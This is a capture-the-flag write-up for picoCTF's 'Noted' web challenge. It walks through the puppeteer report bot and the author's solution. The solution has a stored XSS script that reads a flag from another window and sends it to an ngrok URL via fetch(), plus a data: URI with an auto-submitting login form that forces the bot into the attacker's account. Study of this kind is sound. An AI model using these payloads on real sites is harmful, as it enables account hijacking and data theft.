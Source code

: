 # Noted

## Description

I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does **not** have access to the internet.

Hint 1: Are you *sure* I followed all the best practices?

Hint 2: There's more than just HTTP(S)!

Hint 3: Things that require user interaction normally in Chrome might not require it in Headless Chrome.

## Approach

This challenge took many attempts before I arrived at the correct solution. I attempted Javascript URIs, CSRF protection bypass, SOP bypass, and some XSS methods. 

This website allows the user to create notes, and includes a login system. Let's go over the rest of the website. Here's `report.js`:
```javascript
async function run(url) {
    let browser;

    try {
        module.exports.open = true;
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
            slowMo: 10
        });

        let page = (await browser.pages())[0]

        await page.goto('http://0.0.0.0:8080/register');
        await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
        await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('http://0.0.0.0:8080/new');
        await page.type('[name="title"]', 'flag');
        await page.type('[name="content"]', process.env.flag ?? 'ctf{flag}');

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('about:blank')
        await page.goto(url);
        await page.waitForTimeout(7500);

        await browser.close();
    } catch(e) {
        console.error(e);
        try { await browser.close() } catch(e) {}
    }

    module.exports.open = false;
}
```
The report function uses puppeteer, an API that allows the automated control of the *headless, non-sandboxed* browser. This means that there is no human "admin" (although in a real world situation, there may be).

So, what happens when the user submits a link to the report page?
* Puppeteer creates a new account with a random username and password
* It creates a note under that new user, with the flag contained inside (process.env.flag)
* Only after this, does the bot open the URL that we provide through `/reports`

Originally, I planned to use Data/Javascript URIs to retrieve the account credentials, but this was not possible due to SOP. Also, the fetch API cannot be used due to CSRF tokens. It is important to note that the challenge creators mentioned that the headless browser did not have access to the internet; However, a couple of ports were open. Although this will not change the real solution, it will make exfiltration more streamlined. 

The idea is to create a note with a Javascript script embedded. Any user that opens the webpage will thus also execute the script. The script will contain the exfiltration process. Next, we can submit a Data URI forcing the headless browser to login to our account, then navigate to `/notes`. This will execute the note mentioned previously, allowing the retrieval of the flag. Here's the code:

Note:
```HTML
<script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.getElementsByTagName('p')[0].innerText; fetch('https://www.ngrok.io/link_here?flag='+flag);</script>
```

Report:
```HTML
data:text/html,
<body>
  <form action="http://0.0.0.0:8080/login" method="POST" id="vuln" target="_blank">
    <input type="text" name="username" placeholder="username" value="arst">
    <br><br>
    <input type="password" name="password" placeholder="password" value="arst">
    <br><br>
    <input type="submit" value="Submit">
</form>
    <script>
        var w1 = window.open('http://0.0.0.0:8080/notes', 'flagWindow');
        vuln.submit();
    </script>
</body>
```

The note will exfiltrate to an "ngrok" website (you can use any web server you have) through a GET request, including in the parameters. When submitting the preceding URI through `/report`, we will receive a GET request, visible through ngrok's console: 

![Console](/Web%20Exploitation/Noted/Console.png)

Thus, the flag is: picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}

